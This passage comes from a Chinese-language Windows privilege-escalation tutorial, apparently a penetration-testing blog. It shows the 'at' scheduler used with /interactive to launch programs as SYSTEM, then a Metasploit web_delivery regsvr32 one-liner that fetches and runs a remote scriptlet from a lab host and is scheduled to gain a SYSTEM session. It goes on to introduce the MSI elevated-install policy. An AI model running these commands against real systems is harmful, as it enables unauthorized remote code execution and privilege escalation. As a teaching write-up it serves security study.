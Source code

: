 该命令会发布一个定时任务计划，在每日的10:45启动calc.exe。

我们可以通过 “/interactive”开启界面交互模式：

```sh
at 10:45PM /interactive calc.exe
```

验证是否以SYSTEM权限启动

使用“at 10:56PM /interactive calc.exe”命令创建一个定时任务计划。

参考文档：https://support.microsoft.com/zh-cn/help/313565/how-to-use-the-at-command-to-schedule-tasks

![](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-10-08/0x15.png)

### 提权过程

可以采用Regsvr32一条命令上线，使用MSF的“multi/script/web_delivery”模块，我的配置如下：

![](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-10-08/0x16.png)
```sh
regsvr32 /s /n /u /i:http://192.168.117.132:8080/EixyqoXL7Q8JccV.sct scrobj.dll
```
就是需要执行的命令，需要将它加入定时任务计划中去。

命令：

```sh
at 11:16PM \interactive regsvr32 /s /n /u /i:http://192.168.117.132:8080/EixyqoXL7Q8JccV.sct scrobj.dll
```

![](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-10-08/0x17.png)
但是我发现regsvr32会报错。

只能将木马落地到服务器（Win 2003 SP1）上了，还是采用之前生成的木马。

![](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-10-08/0x18.png)
![](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-10-08/0x19.png)
此时我们得到的会话已经是“SYSTEM”权限。

## 0x04 MSI安装策略提权

自从Windows 2000起，在安装MSI安装包的时候，会以SYSTEM权限运行。前提是组策略启用了“Allow install with elevated privileges”。

该项可以在组策略编辑器（`gpedit.msc`）中看到：

指导 Windows 安装程序在系统上安装任何程序时使用系统权限。

该设置会将提升的特权扩展到所有程序。这些特权通常是为已分配给用户(桌面上提供的)或计算机(自动安装的)、或者显示在“控制面板”的“添加或删除程序”中的程序而保留的。该设置允许用户安装需要访问用户可能无查看或更改权限目录(包括受高度限制的计算机上的目录)的程序。 

如果禁用或未配置此设置，当安装的程序不是管理员分发或提供的程序时，系统将会应用当前用户的权限。 

注意:“计算机配置”和“用户配置”文件夹中均包括此设置。若要使该设置生效，必须在两个文件夹中都启用它。
